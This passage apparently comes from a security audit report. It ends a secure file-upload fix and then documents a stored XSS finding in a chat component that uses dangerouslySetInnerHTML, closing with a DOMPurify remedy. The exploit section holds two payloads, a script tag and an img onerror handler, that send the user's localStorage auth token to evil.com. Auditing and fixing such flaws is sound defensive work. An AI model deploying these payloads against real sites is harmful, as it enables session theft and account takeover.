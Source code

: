 ```python
    
    # 5. Generate unique path
    unique_id = str(uuid.uuid4())
    path = f"uploads/{user_id}/{unique_id}_{safe_filename}"
    
    # 6. Save with proper permissions
    os.makedirs(os.path.dirname(path), exist_ok=True)
    with open(path, "wb") as f:
        f.write(content)
    os.chmod(path, 0o600)  # Read/write for owner only
    
    return {"file_id": unique_id, "path": path}
```

---

## 🔴 SEC-006: Stored XSS via Unescaped User Input

**File:** Frontend components  
**Severity:** 🔴 CRITICAL  
**Risk:** Account Takeover, Data Theft  

**Problem:**
- User messages rendered without sanitization
- HTML injection possible
- Session tokens stealable

**Vulnerable Code:**
```typescript
// ChatMessage.tsx
<div dangerouslySetInnerHTML={{ __html: message.content }} />
// ↑ ALLOWS ANY HTML/JAVASCRIPT!
```

**Exploit:**
```javascript
// Attacker sends as message:
"<script>
  fetch('https://evil.com/steal?token=' + localStorage.getItem('auth_token'))
</script>"

// Or:
"<img src=x onerror='fetch(\"https://evil.com/steal?token=\" + localStorage.getItem(\"auth_token\"))'>"
```

**Fix:**
```typescript
import DOMPurify from 'dompurify';

// Sanitize all user content
const sanitizedContent = DOMPurify.sanitize(message.content, {
  ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'code', 'pre'],
  ALLOWED_ATTR: []
});

<div dangerouslySetInnerHTML={{ __html: sanitizedContent }} />
```

---